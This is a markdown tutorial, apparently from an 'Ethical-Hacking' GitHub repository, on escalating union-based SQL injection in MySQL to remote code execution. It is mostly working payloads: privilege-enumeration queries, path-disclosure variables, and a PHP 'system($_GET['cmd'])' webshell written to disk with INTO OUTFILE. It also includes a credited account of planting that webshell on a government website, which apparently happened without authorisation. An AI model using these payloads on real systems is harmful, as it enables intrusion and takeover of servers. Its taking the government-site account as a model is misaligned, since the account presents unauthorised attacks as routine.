 # SQL Privilege Escalation

## Identifying permissions of a single user

If the database user has write permission, it allows an attacker to upload arbitrary files in the server.

Let's suppose that the website has 12 columns and the given UNION Based SQL query shows that the vulnerable column is 4:
```http://domain.com/index.php?id=1' Union Select 1,2,3,4,5,6,7,8,9,10,11,12-- -```

Payload used for Privilege Check via I_S.PRIVILEGES:
```
(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES)
```
Payload used for Privilege Check via MySQL System Table:
```
(SELECT+GROUP_CONCAT(user,0x202d3e20,file_priv,0x3c62723e)+FROM+mysql.user)
```

Apply one of the queries into the 4th column:
```http://domain.com/index.php?id=1' Union Select 1,2,3,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),5,6,7,8,9,10,11,12-- -```

Look into the results, if 'root'@'localhost' is YES, then we can perform Privilage Escalation (perform RCE). Else, if NO is shown we can't perform RCE since we don't have permission to write over the server.

## Escalating privileges

The typical method for discovering a path involves querying the temporary path in SQL. To achieve this, we can utilize the following query to retrieve absolute path directories:
```
@@slave_load_tmpdir
@@basedir
@@datadir
@@tmpdir
```
Look at the output, you should look after a directory, something like this: /var/mysqltmp
This means that we can upload files to /mysqltmp

An alternative approach, especially when a website is prone to errors, is to trigger a 'Fatal Error' or a Syntax Error. The absolute path will then be revealed, typically highlighted or bolded, similar to the image below. Please be aware that various websites may display different outputs and formats.

![image](https://github.com/29yannic/Ethical-Hacking/assets/76999460/095ab819-4078-46fe-9419-10fbd8c9cac8)

The bold part is the absolute path: E:\xampp\htdocs which is converted to E:/xampp/htdocs

## Real life scenario (Thanks to user kleiton0x00)

Below is a simple writeup of how I managed to upload a webshell in a gov website. Using the following query I found out that column 7 was vulnerable:
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,7,8--```

Let's enumerate the user's privilege:
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,(SELECT+GROUP_CONCAT(GRANTEE,0x202d3e20,IS_GRANTABLE,0x3c62723e)+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES),8--```

The output looks promising, the user j**** has writing permission, which mean we can write arbitrary files:
[privilege_check_output](https://camo.githubusercontent.com/652d45ede363f43bfcb9e1469a51145fda6837caa21c53421c5e67bbf36cc310/68747470733a2f2f692e696d6775722e636f6d2f473848523754712e6a7067)

Now it's time to find an existing path so we know where to write our webshell. For this I am going to use some global variables (which we already discussed here)
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,@@slave_load_tmpdir,8--```

The output is:
```C:\xampp\tmp```

Great, so now let's upload a webshell to C:\xampp\tmp:
```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,"<?php system($_GET['cmd']); ?>",8 into outfile 'C:/xampp/tmp/webshell.php'--```

I tried to find a way how to access our webshell, but since it is uploaded on /tmp directory, there was no chance to directly access it. In this case, we use load_file() function. ```http://xxxx.gov.xx/redacted/redactedphpfile?aid=1 union select 1,2,3,4,5,6,load_file('C:/xampp/tmp/webshell.php'),8--```

If we see the source-code of the response, we can see our webshell uploaded:
![image](https://github.com/29yannic/Ethical-Hacking/assets/76999460/f2a60318-98f1-411f-a42d-c7de8175898d)

Note: This is a simple PoC, in real-life pentest engagements, you might prefer uploading a proper webshell instead, since it is easier to interact with it.

## Useful links

https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file

